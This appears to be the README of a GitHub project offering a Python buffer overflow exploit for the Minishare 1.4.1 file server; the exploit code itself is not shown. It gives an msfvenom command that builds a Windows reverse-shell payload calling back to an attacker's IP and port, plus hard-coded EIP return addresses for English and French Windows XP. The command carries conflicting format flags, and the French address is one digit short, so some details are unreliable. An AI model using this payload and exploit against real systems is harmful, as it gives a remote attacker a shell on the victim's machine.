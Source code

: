 # minishare_1_4_1_bof

This is a python based buffer overflow for Minishare 1.4.1

Incredibly simple, address and port need to be put in manually, and a msfvenom needs be generated with your IP addess.

msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local port> -f python -a x86 --platform windows -b '\x00\x0d' -f c

Included are the EIP's for a couple Windows XP versions. Both should work, but if they don't you'll have to find new ones in a debugger.

Windows XP-English: 7C9D30D7
Windows XP-French: 7C9E320

I plan on making a more robust automated version in the future.
